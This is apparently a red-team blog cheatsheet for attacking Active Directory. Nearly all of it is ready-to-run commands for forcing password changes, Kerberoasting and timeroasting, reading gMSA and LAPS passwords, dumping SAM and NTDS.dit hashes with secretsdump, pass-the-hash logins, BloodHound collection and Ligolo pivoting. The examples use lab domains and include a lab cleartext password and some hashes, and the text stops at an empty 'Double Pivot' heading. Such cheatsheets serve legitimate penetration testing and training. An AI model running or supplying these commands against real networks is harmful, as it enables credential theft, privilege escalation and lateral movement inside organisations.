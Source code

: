 ```yaml
---
title: "Active Directory Cheatsheet"
date: 2025-09-15 00:00:00 +1000
categories: [red team, active directory, cheatsheet]
tags: [active directory, cheatsheet, red team]
---
```


This cheatsheets covers everything AD-related:
- Enumerating and exploiting DACLs, misconfigurations with bloodyAD
- Mapping network domains with BloodHound
- Authentication, enumeration, and credential dumping across various network services with NetExec
- Pivoting with ligolo - double, triple and quad pivots, accessing internal ports


### bloodyAD

bloodyAD is an Active Directory privilege escalation swiss army knife. bloodyAD can perform specific LDAP calls to a domain controller in order to perform AD privesc. It supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.

autobloodyAD: https://github.com/CravateRouge/autobloody

**Reset/Change a User’s Password (ForceChangePassword, AllExtendedRights)**

```bash
#Change the password for admin with john's permissions - john = ControlledUser - admin = User whose password we want to change
bloodyAD -u john -p 'NewPassword123!' -d $domain --host $IP set password admin 'NewPassword123!'
```

```bash
#Enumerate the attributes and ACLs of a specific group
 bloodyAD --host dc01.ad.trilocor.local -d ad.trilocor.local -u username -p password get object "CN=GROUP NAME,OU=Security Groups,OU=Corp,DC=ad,DC=trilocor,DC=local" --attr 
 distinguishedName,nTSecurityDescriptor --resolve-sd
```

Enumerate a user’s rights at the Domain Level

```bash
bloodyAD --host dc01.ad.trilocor.local -d ad.trilocor.local -u username -p password get object 'DC=ad,DC=trilocor,DC=local' --attr ntsecuritydescriptor --resolve-sd
```

Enumerate a user’s rights, permissions, and ACLs

```bash
#Enumerate a user's rights, permissions, ACLs
bloodyAD --host dc01.ad.trilocor.local -d ad.trilocor.local -u username -p password get writable --detail
```

**Read GMSA Password (ReadGMSAPassword)**

```bash
##Use the 'ReadGMSAPassword' privilege to get the NTLM hash
nxc ldap tombwatcher.htb -u user -p password --gmsa
```

**Deleted Objects - AD Tombstones**

```bash
#Query to find deleted objects from the AD tombstone
bloodyAD -u $user -p '$password' -d $domain --host $DC get search -c 1.2.840.113556.1.4.2064 --filter '(isDeleted=TRUE)' --attr name --base 'CN=Deleted Objects,DC=ad,DC=trilocor,DC=local'
```

**Enable a Disabled Account**

```bash
bloodyAD -u $user -p '$password' -d $domain --host $DC remove uac $target_username -f ACCOUNTDISABLE
bloodyAD -u john.smith -p 'Password' -d htb.local --host dc01.htb.local remove uac joseph.smith -f ACCOUNTDISABLE
```

**Change a User’s SPN (for Targeted Kerberoasting)**

```bash
bloodyAD -d $domain --host $DC -u $user -p '$password' -k set object $user servicePrincipalName -v 'http/web.ad.trilocor.local'
```

**Search for LAPS Passwords (with GenericAll privilege)**

```bash
bloodyAD -u $user -p '$password' -d $domain --host $DC get search --filter '(&(objectCategory=computer)(ms-MCS-AdmPwd=*))' --attr ms-MCS-AdmPwd --base 'ou=servers,dc=reflection,dc=vl'

ldapsearch -x -H ldap://10.10.151.149 -D "abbie.smith@reflection.vl" -w 'CMe1x+nlRaaWEw' -b 
"ou=servers,dc=reflection,dc=vl" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd
```

### netexec

NetExec (a.k.a nxc) is a network service exploitation tool that helps automate assessing the security of large networks.

**Kerberoasting / Targeted Kerberoasting**

```bash
nxc ldap IP -u user -p password --kerberoast kerberoast.out
```

**RBCD / GenericAll Exploitation without a Machine Account**

```bash
##Query Machine Account Quota (MAQ) - 0 = we CANNOT create computer objects
nxc ldap $dc -u $user -p $password -M maq
```

**Timeroasting**

```bash
nxc smb $domain -M timeroast
```

**Query LDAP**

```bash
nxc ldap <ip> -u username -p password --query "(sAMAccountName=Administrator)" ""
nxc ldap <ip> -u username -p password --query "(sAMAccountName=Administrator)" "sAMAccountName objectClass pwdLastSet"
#Get User Descriptions
nxc ldap <hostname> -u <user> -p <pass> -M get-desc-users
```

**Find Misconfigured Delegation**

```bash
#Find Misconfigured Delegation
nxc ldap $IP-u $user -p $password --find-delegation

# Example Output

SMB    192.168.56.11   445   WINTERFELL   [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
LDAP   192.168.56.11   389   WINTERFELL   [+] north.sevenkingdoms.local\eddard.stark:FightP3aceAndHonor! (Pwn3d!)
LDAP   192.168.56.11   389   WINTERFELL   AccountName  AccountType DelegationType                     DelegationRightsTo
LDAP   192.168.56.11   389   WINTERFELL   ------------ ----------- ---------------------------------- ----------------------------------------------------------------
LDAP   192.168.56.11   389   WINTERFELL   sansa.stark  Person      Unconstrained                      N/A
LDAP   192.168.56.11   389   WINTERFELL   jon.snow     Person      Constrained w/ Protocol Transition CIFS/winterfell, CIFS/winterfell.north.sevenkingdoms.local
LDAP   192.168.56.11   389   WINTERFELL   jon.snow     Person      Resource-Based Constrained         RBCD-COMPUTER$
LDAP   192.168.56.11   389   WINTERFELL   CASTELBLACK$ Computer    Constrained                        HTTP/winterfell, HTTP/winterfell.north.sevenkingdoms.local
LDAP   192.168.56.11   389   WINTERFELL   пользователь Person      Resource-Based Constrained         WINTERFELL$
```

### Impacket

Get a TGT for a user

```bash
impacket-getTGT $domain/'user':'password'
impacket-getTGT htb.local/'john':'Password123'
```

Dump database

```bash
impacket-secretsdump DOMAIN/username:password@IP
#Dumping secrets with a hash
impacket-secretsdump htb.local/john@10.10.10.5 -hashes :aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
#Dump local SAM & SYSTEM files
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL
#Dump local NTDS.dit (AD database)
impacket-secretsdump -ntds ntds.dit -system SYSTEM -security SECURITY LOCAL
```

Connecting to an MSSQL server

```bash
impacket-mssqlclient DOMAIN/username:password@IP
#Connecting to an MSSQL server with a hash
impacket-mssqlclient htb.local/john@10.10.10.5 -hashes :32ed87bdb5fdc5e9cba88547376818d4
```

### BloodHound

**Collection**

```bash
nxc ldap $domain -u $user -p $password --bloodhound --collection All --dns-server $IP

bloodhound-python -d $domain --zip -c All -ns $IP -u $user -p $password
```

### Pivoting with Ligolo

**Single Pivot**

```powershell
sudo ip tuntap add user $(whoami) mode tun ligolo #Add user
sudo ip link set ligolo up
```

**Single Pivot (same IP range)**

Pivoting when the target IP range is the same range as your IP (e.g both 10.10 range)

```bash
sudo ip tuntap add user $(whoami) mode tun ligolo #Add user
sudo ip link set ligolo up
sudo ip route add 10.10.146.86 via 10.8.5.207  #Add the machine IP (10.10.146.86) via your VPN IP (10.8.5.207)
sudo ip route add 10.10.146.80/28 dev ligolo   #Add a route between 10.10.146.80 to .95

```

**Port Forwarding**

If you need to access the local ports of the currently connected agents, there’s a “magic” CIDR hardcoded in Ligolo-ng: 240.0.0/4 (This is an unusual IPv4 subnet). If you query an IP address on this subnet, Ligolo-ng will automatically redirect traffic to the agent’s local IP address (127.0.0.1).

```bash
sudo ip route add 240.0.0.5/32 dev ligolo-portfwd
nmap -Pn 240.0.0.5 -p3306
```

**Double Pivot**
